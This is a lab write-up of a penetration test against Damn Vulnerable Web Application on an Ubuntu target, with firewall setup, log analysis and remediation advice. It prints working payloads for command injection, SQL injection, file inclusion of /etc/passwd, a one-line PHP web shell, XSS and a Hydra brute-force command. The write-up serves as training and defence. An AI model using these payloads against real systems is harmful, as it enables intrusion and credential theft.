# DVWA LAMP Pentest Lab

## Objective
Deploy a vulnerable LAMP stack (Linux, Apache, MariaDB, PHP) running Damn Vulnerable Web Application (DVWA), harden the network perimeter with a firewall, execute a full penetration test from an attacking Kali Linux box, and analyze the resulting logs for threat hunting.

## Lab Environment

**Attacker (Kali Linux)**
* **IP:** 192.168.1.178
* **Role:** Attack platform
* **Tools:** Nmap, Hydra, Zeek, Curl

**Target (Ubuntu Server 26.04 LTS)**
* **IP:** 192.168.1.151
* **Hostname:** ubuntu-target
* **Role:** Web Server / Target
* **Services:** SSH (22), HTTP (80), MariaDB (localhost)
* **Application:** DVWA (Security Level: Low)

---

## Phase 1: Reconnaissance & Firewall Configuration

### Initial Scan
An initial Nmap scan revealed open ports for SSH (22), HTTP (80), and Samba (139, 445). The Samba services were an unintended default installation and posed an unnecessary risk to the server.



### Firewall Implementation
UFW (Uncomplicated Firewall) was configured to allow only necessary traffic (SSH and HTTP) and explicitly deny the Samba ports.

**Commands used:**
```bash
sudo ufw allow 22/tcp
sudo ufw allow 80/tcp
sudo ufw deny 139/tcp
sudo ufw deny 445/tcp
sudo ufw enable
```

### Verification
A second Nmap scan confirmed the Samba ports were successfully filtered, reducing the attack surface. Notice the scan time increased from 19 seconds to 111 seconds due to the firewall dropping packets silently (filtered state).



---

## Phase 2: Exploitation

### 1. Command Injection
The DVWA "Ping a device" feature was vulnerable to command injection. By appending shell commands to the IP address, remote code execution was achieved.

**Payload:**
```text
127.0.0.1; whoami
```
**Result:** `www-data` (Confirmed execution as the web server user)



**Payload:**
```text
127.0.0.1; cat /etc/passwd
```
**Result:** Exfiltrated the system user list.



### 2. SQL Injection
The SQL Injection module allowed direct database queries. By using a UNION statement, user credentials were extracted.

**Payload:**
```sql
1' OR '1'='1
```
**Result:** Bypassed authentication and returned all users.



**Payload:**
```sql
1' UNION SELECT user, password FROM users #
```
**Result:** Dumped username and MD5 password hashes for all users.



### 3. File Inclusion
The File Inclusion module allowed Local File Inclusion (LFI). By manipulating the page parameter, sensitive system files were read.

**Payload:**
```text
?page=/etc/passwd
```
**Result:** Successfully read the Linux password file through the web browser.



### 4. File Upload (Web Shell)
The File Upload module lacked file type validation. A PHP web shell was uploaded, granting remote command execution.

**Payload:** `shell.php` containing:
```php
<?php system($_GET["cmd"]); ?>
```
**Result:** Executed OS commands via the URL.





### 5. Cross-Site Scripting (XSS)
Both Reflected and Stored XSS were tested. JavaScript payloads executed in the browser, proving the application does not sanitize user input.

**Payload:**
```html
<script>alert('Stored XSS')</script>
```
**Result:** Alert box executed upon page load.





### 6. Brute Force (Hydra)
The login page was targeted using Hydra. A custom wordlist containing 100 passwords was used.

**Command:**
```bash
hydra -l admin -P passwords.txt -t 1 192.168.1.151 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

**Result:** Password `password` was successfully identified. The `-t 1` flag was critical to prevent PHP session locking and false positives.



---

## Phase 3: Log Analysis & Threat Hunting

### Apache Access Logs
The Apache access logs captured over 51,222 requests from the Kali IP during the Hydra attack. The logs clearly show the User-Agent `Mozilla/5.0 (Hydra)` and the 302 redirect responses from the server.

**Command:**
```bash
grep "Mozilla/5.0 (Hydra)" apache_access_day1.log | wc -l
```



### Zeek Network Analysis
A packet capture (.pcap) was taken during the Hydra attack. Zeek was used to parse the raw network traffic into structured logs.

* **HTTP Log:** Extracted the exact passwords being attempted in the URLs.
* **Conn Log:** Showed 100 HTTP connections between Kali and Ubuntu.

**Command:**
```bash
zeek-cut id.orig_h id.resp_h service < conn.log | sort | uniq -c
```





---

## Remediation & Lessons Learned

* **Input Sanitization:** All user input (Command Injection, SQLi, XSS) must be strictly validated and sanitized.
* **File Upload Restrictions:** Validate file extensions and MIME types. Store uploads outside the web root.
* **Strong Authentication:** Enforce strong password policies and implement account lockout after failed login attempts.

Least Privilege: The web server (www-data) should not have read access to sensitive files like /etc/passwd.
Network Segmentation: Unnecessary services (Samba) should be disabled or blocked by the firewall.
